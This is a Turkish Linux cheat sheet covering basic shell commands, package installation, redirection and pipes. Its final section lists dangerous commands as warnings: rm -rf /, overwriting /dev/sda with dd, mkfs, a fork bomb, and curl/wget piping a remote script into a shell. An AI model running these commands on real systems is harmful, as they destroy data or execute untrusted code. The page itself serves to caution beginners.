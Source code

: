 # Linux Hile Kağıdı

## Temel komutlar

> Çoğu basit komut Unix benzeri olduğu için MacOS'e benzemektedir. 

```bash
cd ./klasor # Klasörün içine girer

cd ./project/src # project içindeki src klasörünün içine girer

rm -rf ./klasor # belirtilen klasörü içindekilerle beraber siler. 
# -r => Recursive => iç içe
# -f => Force => Zorla yaptır

## Dosya ya da klasör ismi yazarken tab tuşu yardımıyla otomatik tamamlayabilirsiniz

touch file.txt # file.txt adında yeni bir dosya açar

rm file.txt # file.txt dosyasını siler

cat file.txt # file.txt dosyasının içeriğini terminale basar

nano file.txt # file.txt dosyasını text editör ile açar. Kaydetmek için CTRL+O ve ENTER yapılır. Daha fazla işlem CTRL tuşu ile ekranın aşağısında ^ karakterinden sonra başlayan harfe basarak yapılabilir 

vim file.txt # file.txt dosyasını text editör ile açar. Daha fazla bilgi: vim.md

sudo komut # bir komutu yönetici olarak çalıştırmanıza olanak tanır. Yönetici parolası gerekir

```

## Uygulama kurma

- Eğer çalıştığınız Linux distrosu Debian, Ubuntu ya da benzeri bir işletim sistemi ise `apt` komutu kullanılır.

```bash
sudo apt-get update
#Sistemdeki paket reposu güncellenmeden uygulama kurulması sisteminizi bozabilir
sudo apt-get install fastfetch
fastfetch
``` 

- Eğer çalıştığınız Linux distrosu Red Hat, Fedora, Alma, ya da Rocky ise `dnf` komutu kullanılır.

```bash
sudo dnf install fastfetch
fastfetch
``` 

- Paket ismini bilmiyorsanız kullandığınız işletim sistemi ile beraber paket ismi aratılmalıdır. Ama bazen komutu yazıp enterlarsanız, ve komut bulunamadı hatasından sonra da bunu görüyorsanız, işletim sistemi muhtemelen buradan da kurmanıza izin verecektir


```
> nest
bash: nest: komut bulunamadı...
'nest' paketi 'nest' komutunu sağlaması için kurulsun mu? [N/y] #y basılıp kurulabilir
```

- Sistem deposundan olmayan bir paket dışarıdan repo eklenerek kurulabilir. bu durumda eklenen repo'dan emin olunmalıdır

## Konsol çıktısını dosyaya kaydetme (stdout)

Eğer komuttan çıkan stdout akışını dosyaya kaydetmek isterseniz, bunu ">" ile yapabilirsiniz

```
komut > cikti.txt
```

`cikti.txt`yi herhangi bir not defteri uygulamasıyla açarsanız, uygulama çıktısını görebilirsiniz.

Örnek: 
```
mysqldump db_name > yedek.sql
```

Eğer `>` yerine `>>` kullanırsanız, bu dosyayı silyaz yapmak yerine sonuna ekler.

## Konsolda input verme (stdin)

Küçüktür işaretinin tersi ile (`<`) dosyalarınızı komuta okutabilirsiniz

```bash
cat < notlar.txt
```

burada `notlar.txt` dosyasını `cat` komutu vasıtasıyla ekrana okutacaktır. Başka bir örnek ise önceki örnekte yapılan mysql yedeğini yüklemektir

```
mysql --user=user_name -p"sizin parolanız" db_name < yedek.sql
```

## Uygulamadan uygulamaya veri gönderme (Pipe)

Bir uygulamadan diğer uygulamaya veri göndermek için pipe (`|`) operatörü kullanabilirsiniz


```bash
cat dosya.txt | grep -e "Aranan metin" 
```

Eğer stdin'den veri almayı desteklemiyorsa, komutun sonuna `-` eklenebilir. Örn: veritabanı çıktısını vimde düzenlemek için:
```bash
mysqldump database | vim -
```


## ‼️‼️‼️Tehlikeli komutlar

```bash
rm -rf / 
# Kök pathini tamamen siler. Ancak bu işletim sisteminizin diskiyle sınırlı kalmayacaktır. Mountlanmış (taktığınız ve dosya yöneticinizde "bağla" seçeneğini tıklamış olduğunuz) ne kadar disk varsa onlarla vedalaşmanız gerekecek

command >/dev/sda 
# bir komutun çıktısını diske yazar. Dolayısıyla diski siler. işletim sisteminizin çalıştığı disk de olabilir

dd if=/dev/random of=/dev/sda
## if ile belirtilen imajı diske imajlar. of= parametresindeki diskin imajlamak istediğiniz disk olduğundan EMİN OLUN

mkfs.ext3 /dev/sda
## Diski formatlar

wget http://unknown.com.tr/script.sh -O-|sh
curl -o- http://unknown.com.tr/script.sh |sh
curl -o- http://unknown.com.tr/script.sh |bash
curl -o- http://unknown.com.tr/script.sh |zsh vs vs
## Uzaktan script çalıştırır. Çalıştırmadan önce siteden emin olun

history | sh
# geçmişte çalıştırdığınız komutları tekrar çalıştırır. Muhtemelen ilk formattan itibaren...

:(){ :|:& };:
# kod fork bombası olarak bilinir. Kendini sistem donana kadar çalıştırır (forklar).

"/dev/null içerikli herhangi bir kod"
# /dev/null karadelik olarak bilinir. mv dosya /dev/null yaparak dosyalarınızı kaybedebilirsiniz ve ya sisteminizi bozabilirsiniz.

```